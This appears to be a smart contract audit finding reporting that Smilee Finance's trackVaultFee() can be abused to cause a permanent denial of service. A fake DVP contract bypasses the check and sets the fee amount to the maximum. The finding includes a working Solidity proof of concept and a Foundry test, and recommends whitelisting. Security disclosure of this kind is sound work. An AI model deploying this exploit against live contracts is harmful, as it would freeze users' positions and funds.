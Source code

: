 Gentle Fiery Locust

high

# Permanent Dos through trackVaultFee()

## Summary

The function trackVaultFee() in the FeeManager contract has poor validation of msg.sender, and a malicious user can set any value they want in vaultFeeAmounts without restrictions.

## Vulnerability Detail

https://github.com/sherlock-audit/2024-02-smilee-finance/blob/3241f1bf0c8e951a41dd2e51997f64ef3ec017bd/smilee-v2-contracts/src/FeeManager.sol#L218-L228

The check performed in trackVaultFee() is whether the provided vault address matches that of the vault of the DVP instance located at the msg.sender address. The problem is that anyone can deploy a modified DVP contract whose vault can be one of Smilee's vaults. This way, the check is bypassed. The trackVaultFee function is called on every mint and burn. A malicious user can execute trackVaultFee with an amount uint256.max and thus cause the function to revert on every subsequent call. This means a permanent denial of service on mint and burn.

<details>
    <summary>POC</summary>
   You should add this POC into Scenarios.t.sol
   
   ```solidity
   contract FakeDVP
{
    address vault_;
    address feeManager;

    constructor(address _vault, address _feeManager)
    {
        vault_ = _vault;
        feeManager = _feeManager;
    }

    function vault() external view returns (address) 
    {
        return vault_;
    }

    function fake() external 
    {
        uint256 amount = FeeManager(feeManager).vaultFeeAmounts(vault_);
        FeeManager(feeManager).trackVaultFee(vault_, type(uint256).max - amount);
    }

    function premium(
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown
    ) external view returns (uint256 premium, uint256 fee) 
    {}

    function payoff(
        uint256 epoch,
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown
    ) external view returns (uint256 payoff, uint256 fee) 
    {}

    function getUtilizationRate() external view returns (uint256)
    {}

    function mint(
        address recipient,
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown,
        uint256 expectedPremium,
        uint256 maxSlippage,
        uint256 nftAccessTokenId
    ) external returns (uint256 leverage)
    {}

    function burn(
        uint256 epoch,
        address recipient,
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown,
        uint256 expectedMarketValue,
        uint256 maxSlippage
    ) external returns (uint256 paidPayoff)
    {}
}
   ```

   ```solidity
   function testDosDVP() public 
    {        
        string memory scenarioName = "scenario_1";
        bool isFirstEpoch = true;

        console.log(string.concat("Executing scenario: ", scenarioName));
        string memory scenariosJSON = _getTestsFromJson(scenarioName);

        console.log("- Checking start epoch");
        StartEpoch memory startEpoch = _getStartEpochFromJson(scenariosJSON);
        _checkStartEpoch(startEpoch, isFirstEpoch);

        Trade[] memory trades = _getTradesFromJson(scenariosJSON);
        for (uint i = 0; i < trades.length; i++) {
            console.log("- Checking trade number", i + 1);
            _checkTrade(trades[i]);
        }

        address attacker = address(0x4);
        vm.startPrank(attacker);
        FakeDVP fakeDVP = new FakeDVP(address(_vault), address(_feeManager));
        fakeDVP.fake();

        vm.startPrank(_trader);
        (uint256 marketValue, uint256 fee) = _dvp.payoff(_dvp.currentEpoch(), 2000000000000000000000, 80000000000000000000000, 0);
        
        //this call will revert
        marketValue = _dvp.burn(
            _dvp.currentEpoch(),
            _trader,
            2000000000000000000000,
            80000000000000000000000,
            0,
            marketValue,
            1000000000000000
        );
    }
   ```
</details>

## Impact

The described DOS attack can be executed when the protocol has a high utilization rate. Users will not be able to close their positions and will incur losses equal to the premium paid, which will remain locked in the protocol, whose normal operation cannot be restored.

## Code Snippet

Above.

## Tool used

Manual Review

## Recommendation

Possible solution is to add a whitelist for DVP instances that are allowed to use trackVaultFee or to add a separate role for them.
